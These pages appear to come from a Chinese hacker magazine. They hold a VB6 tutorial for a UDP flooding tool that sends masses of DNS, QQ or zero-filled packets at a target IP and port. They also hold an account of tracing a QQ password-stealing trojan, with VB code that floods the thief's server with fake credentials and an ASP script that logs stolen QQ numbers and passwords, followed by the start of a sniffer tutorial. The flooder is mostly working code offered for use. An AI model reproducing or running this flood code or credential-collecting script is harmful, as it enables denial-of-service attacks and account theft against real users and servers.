

由于我是程序员，所以做东西总是喜欢模块化，对外只留出接口，这样在团队开发的时候，大家只要互相知道接口和功能就行了。RobinUDP 用了如下 ActiveX 控件：

- `Command.ctl`（command 按钮）功能：命令按钮  
- `DnsSend.ctl`（本文会教你如何制作）功能：DNS 包发送控件  
- `MSWINSCK.OCX`（网络控件）功能：发送数据

打开 VB6 新建 ActiveX 控件，属性 `BackStyle` 为 0，向容器内拖放三个控件：

```text
1. Label1
   - Caption=" "（空白）
   - BackColor=&H000080FF&（橙黄）
   - Top=0
   - Left=0
   - Height=?（任意，因为是动态改变的）
   - Width=?（任意，因为是动态改变的）
```

```text
2. Timer1
   - Interval=500
   - Enabled=False
```

```text
3. Winsock
   - 名称=KingSend
   - Protocol=1
```

相关代码：

```vb
Dim K() As Byte
Dim DRun As Boolean
Dim Dip As String
Dim Dnum As String
Dim Dport As Long
Dim iY As Integer
Private Declare Function GetTickCount Lib "kernel32" () As Long

Public Sub StartDNS(ByVal IP As String, ByVal Port As Long, ByVal Num As Double, ByVal Dan As Integer)
    ' 将传进来的参数保存变量中，以备后面调用
    Dip = IP
    Dport = Port
    Dnum = Num
    DRun = True
    iY = Dan
    Timer1.Enabled = True
    ...
End Sub

Private Sub StopDNS()
    DRun = False ' 中断循环发包
End Sub

Private Sub Timer1_Timer()
    On Error Resume Next
    Timer1.Enabled = False
    If DRun = True Then
        ReDim K(63) As Byte
        Select Case iY
            Case Is = 1
                X = "00 00 00 ..." ' 全零数据包
            Case Is = 2
                X = "46 EA 01 ..." ' DNS数据包
            Case Is = 3
                X = "02 0E 13 ..." ' QQ数据包
        End Select

        For i = 1 To Len(X) Step 3
            K(i \ 3) = Val("&H" & Mid(X, i, 2))
        Next i

        KingSend.RemoteHost = Dip
        KingSend.RemotePort = Dport
        wid = UserControl.Width
        x = GetTickCount()

        For i = 1 To Dnum
            KingSend.SendData K
            If i Mod 1000 = 0 Then DoEvents
            If DRun = False Then Exit For
            Label1.Width = wid * Round(i / Dnum, 3)
        Next i

        Label1.Width = 0
        y = GetTickCount()
        MsgBox y - x
    End If
End Sub
```

更改 Form1 属性，名称 WinFrm，BorderStyle：0-None，Picture，如图4所示。拖放控件到如下位置，如图5所示。




```vb
Dim Y As Integer ' 用于保存当前使用的数据包格式代码

Private Sub comm1_Click()
    DNS1(0).StartDNS Text1.Text, Text2.Text, Text3.Text
    ' 开始执行攻击
End Sub

Private Sub comm2_Click()
    DNS1(0).StopDNS ' 停止攻击
End Sub

Private Sub comm3_Click()
    End ' 结束程序
End Sub

Private Sub comm4_Click()
    Me.Hide ' 本身隐藏
    About.Show ' 显示另一个窗口
End Sub

Private Sub comm5_Click()
    ' 进行数据包的切换
    Select Case Y
        Case Is = 1
            Y = 2
            Label7.Caption = "DNS弹"
        Case Is = 2
            Y = 3
            Label7.Caption = "QQ弹"
        Case Is = 3
            Y = 1
            Label7.Caption = "全为零"
    End Select
End Sub

Private Sub Form_Load()
    Y = 1
    comm1.Caption = "开始"
    comm2.Caption = "停止"
    comm3.Caption = "退出"
    comm4.Caption = "关于"
    comm5.Caption = "换弹"
End Sub
```

到此控件已经编写完毕，有两种方式来使用它：可以把它编译成 OCX 控件，然后在主程序中引用这个控件；或者直接把这个 CTL 文件引用到工程文件中。前者发布时要带 OCX，后者只有一个 EXE，建议保存相关工程文件。

```vb
Private Sub Label4_MouseDown(Button As Integer, Shift As Integer, X As Single, Y As Single)
    ' 完成对象拖放的响应
    ReleaseCapture
    SendMessage Me.hwnd, &HA1, 2, 0&
End Sub

Private Sub Label6_Click()
    End ' 结束程序
End Sub

Private Sub Text1_KeyPress(KeyAscii As Integer)
    ' 屏蔽按键，只接受数字、“.”、退格键
    If KeyAscii >= 48 And KeyAscii <= 57 Or KeyAscii = 46 Or KeyAscii = 8 Then
    Else
        KeyAscii = 0
    End If
End Sub

Private Sub Text2_KeyPress(KeyAscii As Integer)
    If KeyAscii >= 48 And KeyAscii <= 57 Or KeyAscii = 8 Then
    Else
        KeyAscii = 0
    End If
End Sub

Private Sub Text3_KeyPress(KeyAscii As Integer)
    If KeyAscii >= 48 And KeyAscii <= 57 Or KeyAscii = 8 Then
    Else
        KeyAscii = 0
    End If
End Sub
```

> 如果把控件改为 SocketAPI，速度会成倍地提升！

编程到此结束，大家可以测试一下此工具的威力，请小心使用。

适合读者：编程爱好者  
前置知识：VB 语言

#### 被盗号码的反击

文／图 人鱼姬



现在网络上的盗号现象比较猖獗，但是我最近所遇到的这次盗号事件却有一些传奇色彩。

话说我有个同学叫大头，平时很喜欢在 QQ 上聊天。这天中午大家聚在宿舍里休息，大头就向我抱怨他的电脑最近很慢，让我有空帮他看看是什么问题。这时，在一旁上网的王某突然发现大头的 QQ 上线了，而且使用的还是外地的 IP，可是马上又下线了。所以对大头说：“你上 QQ 为什么还用代理呀？”大头迷茫了：“我没上 QQ 呀？”我一想就觉得事情不对，赶紧说：“你的密码说不定被盗了。”大头赶紧用别人的笔记本登录 QQ，发现可以登录。我说：“你快改密码吧，待会说不定就被别人改了。”只见大头不紧不慢地打开修改密码的网页，慢悠悠地思量着改成什么密码比较好。

过了一会，当大头提交新密码时，发现已经没法改了。仅仅晚了一步。大头哭着喊着要我帮他杀木马，我只好帮他看看。打开任务管理器，发现有两个 winlogon.exe 的进程，其中一个一定是病毒了。最后终于在 Windows 和 system32 文件夹下发现了大小为 52K 但图标和文件名各不相同的木马，如图1和图2所示。





包中发现有 QQ 号码和密码。苦苦地思索了一阵之后，我又看了大量的数据包，终于发现在点击登录之后，会有一个不起眼却又很重要的数据包出现，如图3所示。

这是一段 HTTP 数据报文。首先的一个可疑之处就是这个数据包的目标 IP 是与通讯公司的服务器毫不相干的，而我并没有开其它的网络程序，显然这是木马发送的。其次，从内容来看，它用 Get 方式提交的 URL 为 `GET /postdata.asp?...`，其所提交的参数值显然是毫无意义的乱码。这也是我第一次没有找到这个可疑之处的原因，这个木马把账号及密码加密之后提交给网站，黑客拿到这些密文后再解密还原回来。这样，一个看上去毫不引人注意的数据包就包含着不可告人的秘密。

##### 追查盗号者

那么这个木马是怎么工作的呢？经过思考后，我初步断定这个木马十有八九是通过网站提交密码的。于是找来一个没用的 QQ 号，打开 Sniffer，想看看数据包能提供什么线索。结果却很让人失望，我并没有在大量数据中……



现在各大网站都没有这种提交密码前先加密数据的木马的下载，应该是个人的版本吧。把木马写成这样有两个好处，一是数据包不包含明文的密码，隐蔽性强；二是即使别人拿到密码记录文件、IIS 日志或在 Web 服务器上用 Sniffer 记录了木马提交的 URL，也没有办法还原为明文。不得不承认，这种木马确实很有创意，应该是下一代盗号木马的发展方向吧？接下来我又看了一下盗号网站接收密码的脚本，返回提示为 continue，不知代表什么意思。再查看这台服务器的其他网站，如图4所示，发现这几个网站都没有内容，连首页也没有，偶然间发现这台服务器开了终端服务，还是 Windows 2000 的操作系统呢。



##### 编写反击程序

虽然木马已经被我查了个水落石出，但事情进行到这一步并没有完。它促使我想了一个问题：难道被盗号者永远都是被动的吗？被盗号就只能自认倒霉？经过一段时间的思考后，我编写了一个被盗号者用于反击的程序，主要原理就是随机生成很多用户名和密码，模拟木马发送到盗号网站，让盗号者的记录里有很多垃圾信息。这样即使有木马提交正确的信息，也会淹没在垃圾信息中。盗号者如果想分辨出来正确的和错误的信息，那就慢慢地一个一个地试吧。实际上，我以前用批处理和 VBS 写过一个类似功能的脚本，看上去简陋不用说，而且一旦运行，电脑就不能做其它的事了。于是这次我用 VB 写了一个界面美观的程序供大家使用。

一开始我想用 VB 中的 winsock 控件写，后来发现用 Internet Transfer 的 openURL 方法更省事，所以就用它写出来了。关键代码如下：

```vb
Dim fal As Integer      ' 定义提交失败的次数
Dim suc As Integer      ' 定义成功的次数
Dim showurl As String   ' 定义用于显示出来的 URL
Dim url As String       ' 定义用于提交的 URL

Public Function suiji(a As String) As String
    ' 用于产生指定位数的随机数
    suiji = ""
    Dim i As Integer
    For i = 1 To a
        Randomize
        ' 产生随机种子
        suiji = suiji & Str$(Fix(10 * Rnd))
        ' 将产生的单个随机数连接起来
    Next
End Function

Private Sub Command1_Click()
    If Command1.Caption = "攻击" Then
        Command1.Caption = "暂停"
        Command2.Enabled = False
        Timer1.Enabled = True
    Else
        Command1.Caption = "攻击"
        Timer1.Enabled = False
        Command2.Enabled = True
    End If
End Sub
```

下面的代码大家要注意一下 url 和 showurl 的区别。由于我的设计是让界面下部的 label（标签）里显示正在提交的 URL，但是要在 label 里显示一个“&”就必须使 label 的 Caption 值为“&&”。所以这里设了 url 和 showurl，唯一的区别在于 url 用于提交，所以里面是单个的 `&`，如 `http://www.xxx.com/qq.app?mun=111111&pass=111111`；而 showurl 里是成对的 `&`，如 `http://www.xxx.com/qq.app?mun=111111&&pass=111111`，目的是为了能在 label 里正确显示。

```vb
Public Sub attack()
    Dim header() As String
    ' 定义返回数据报文头的数组
    On Error GoTo err
    ' 考虑到连接不到服务器的情况，此时 openURL 会出错，执行 err

    ' 以下根据用户的输入生成随机 URL
    url = Text4.Text
    If Option1.Value = True Then
        url = url & "?"
        url = url & Text1.Text
        url = url & "="
        If Option3 = True Then
            url = url & Text2.Text
        Else
            url = url & Val(suiji(Val(Text3.Text)))
        End If
    End If

    showurl = url
    If Option5.Value = True Then
        ' 传参数二
        url = url & "&"
        url = url & Text5.Text
        url = url & "="
        showurl = showurl & "&&"
        showurl = showurl & Text5.Text
        showurl = showurl & "="
        If Option9 = True Then
            url = url & Text6.Text
            showurl = showurl & Text6.Text
        Else
            a = Val(suiji(Val(Text7.Text)))
            url = url & a
            showurl = showurl & a
        End If
    End If
    ...
    If Left$(header(0), 12) = "HTTP/1.1 200" Then
        suc = suc + 1
    Else
        fal = fal + 1
    End If
    Exit Sub
err:
    fal = fal + 1
End Sub

Private Sub Timer1_Timer()
    ' 时钟发起调用 attack
    attack
End Sub
```

我到网上下载了各种盗号工具，发现绝大多数脚本接收的都是 2 个参数，如 num 和 pass，但是也有接收 3 个参数的，所以我就设计了 2 个参数，最后一个不用可以禁用掉。另外，程序界面的下面会显示正在提交的 URL，还会显示成功和失败的次数。以后大家遇到盗号的木马，就先用 sniffer 抓它的 HTTP 数据报文看看，搞清楚它的 URL 以及参数名之后就可以动手了。

好了，下面该测试一下了，打开我的电脑上的 IIS，用我的程序攻击，如图5所示。用不了多长时间，就提交上千次了。打开网站目录，记录文件已经有 20K 了，如图6所示。再看看我的程序占用资源的情况，大约占了 10M 内存，如图7所示。



图5


图6


图7

下面是我用来接收密码的 ASP 脚本，其代码如下：

```asp
<%
num=request("num")
pass=request("pass")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("qq.txt"),8,True)
file.writeline num+"|--|"+pass
file.close
set file=nothing

set fs=nothing
response.write "Send OK!"
%>
```

后来我发现，程序在没有注册 msinet.ocx 控件的机器上运行时会报错，因为程序要调用 msinet.ocx。此时只要把 msinet.ocx 放到程序的同一目录下，程序就能正常工作了。最后希望大家能触类旁通，将学到的知识消化为自己的知识。

Socket：相信喜欢黑客工具的朋友们都应该对嗅探器很熟悉吧？SnifferPro、Iris 这些大名鼎鼎的嗅探器也有不少人用。在使用别人写的软件的时候，有没有想过自己编写一个呢？什么？你觉得很难？没关系，只要你有 MFC 的基础，本文将手把手教你编写属于自己的 Sniffer，怎么样？动心了吧？那就 Come On!

- 适合读者：网络安全研究者，程序员
- 前置知识：C/C++ 基础

## 给嗅探器加上数据还原！



文／图 Blackbeast

本文是以一个我前几天刚刚写好的 Sniffer 为例子的。该程序可以监测局域网上所有的数据包，并且可以自动分析各个数据包的结构，完成对该数据包的分类。在该程序中，初步实现了对链路层数据、网络层数据、传输层数据和应用层数据的分层解析，并可识别协议：路由生成树、ARP、IP、TCP、UDP、HTTP、ICMP，并实现了对 HTML、JPG、GIF、BMP、FLASH 文件几类文件的重组和显示。下面还是先介绍一下这个程序的使用方法吧。

##### 使用方法

在本程序开始运行时会弹出适配器选择对话框，如图 1 所示。在选择了所要监控的适配器之后，程序跳转到主界面，如图 2 所示。





首先介绍一下主界面的布局，最左侧是工具栏，然后是树状协议分析区，可以按照数据包的层次结构依次解析数据包内容；右侧上半部是数据包列表，所有收到的数据包都会显示在这个区域；下半部是内存解析区，在左侧的树状包结构的节点上点击相应的位置，这个区域会分别显示内存数值和对应 ASCII 码值。

下面介绍各种功能：左侧的工具栏共有 7 个按钮，分别对应：嗅探开始/恢复、嗅探暂停、嗅探停止、设置过滤器、重新选择适配器、关闭程序和帮助。把鼠标指针放在任何按钮上，程序状态栏会给出相应的功能提示；对应功能在程序的菜单中也有相应的选项。数据包列表部分能够响应鼠标消息，当单击任何一个数据包时，都会在左侧的树状协议分析区显示出该数据包的结构，并且在下部的内存显示区显示整个数据包的内存数据。

